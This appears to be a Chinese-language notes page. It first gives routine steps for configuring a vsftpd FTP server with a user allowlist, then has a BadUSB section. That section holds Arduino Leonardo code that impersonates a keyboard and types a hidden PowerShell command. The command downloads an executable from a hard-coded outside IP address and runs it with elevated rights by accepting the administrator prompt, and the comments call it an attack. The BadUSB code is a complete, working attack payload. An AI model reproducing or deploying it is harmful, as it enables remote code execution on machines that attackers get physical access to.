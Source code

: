 ## 配置ftp
安装 vsftpd 服务器
`apt install vsftpd`

`vim /etc/vsftpd.user_allowlist`
添加用户名

进入
`vim /etc/vsftpd.conf`

把 write_enable=YES 前面的注释去掉，添加下面三行
```
userlist_file=/etc/vsftpd.user_allowlist
userlist_enable=YES
userlist_deny=NO
```

重启：
`/etc/init.d/vsftpd restart`

在主机上安装类似ftp工具（我用的是FileZilla），连接就可以了

# BADUSB

```CPP
#include <Keyboard.h>
void setup() {
  Keyboard.begin();
  //向被攻击主机发送信息，伪装成一个USB键盘并准备通讯
  delay(1542);
  //等待1.542秒，因为电脑在把Leonardo识别成键盘并接受输入时会有1~2秒的延迟，也可以看情况修改，防止输入遗漏
  Keyboard.press(KEY_CAPS_LOCK);
  Keyboard.release(KEY_CAPS_LOCK);
  //按下大写键，防止一些中文输入法的干扰
  Keyboard.press(KEY_LEFT_GUI);
  Keyboard.press('r');
  Keyboard.release(KEY_LEFT_GUI);
  Keyboard.release('r');
  //输入windows+r让电脑弹出“运行”输入框
  delay(736);
  //等待0.736秒
  //这里等待的原因是有些速度较慢的电脑在弹出输入框是有延迟，如果不等待直接执行后续代码输入字符的话会出现输入代码不完全的情况，导致攻击失败
  Keyboard.print("POWERSHELL -W HIDDEN INVOKE-WEBREQUEST \"HTTP://142.171.27.92/KERL.EXE\" -OUTFILE \"KERL.EXE\"; START-PROCESS \"./KERL.EXE\"");
  Keyboard.press(KEY_RIGHT_CTRL);
  Keyboard.press(KEY_RIGHT_SHIFT);
  Keyboard.press(KEY_RETURN);
  Keyboard.release(KEY_RIGHT_CTRL);
  Keyboard.release(KEY_RIGHT_SHIFT);
  Keyboard.release(KEY_RETURN);
  delay(800);
  Keyboard.press(KEY_LEFT_ARROW);
  Keyboard.release(KEY_LEFT_ARROW);
  Keyboard.press(KEY_RETURN);
  Keyboard.release(KEY_RETURN);

  Keyboard.end();
}
void loop() {
}
```
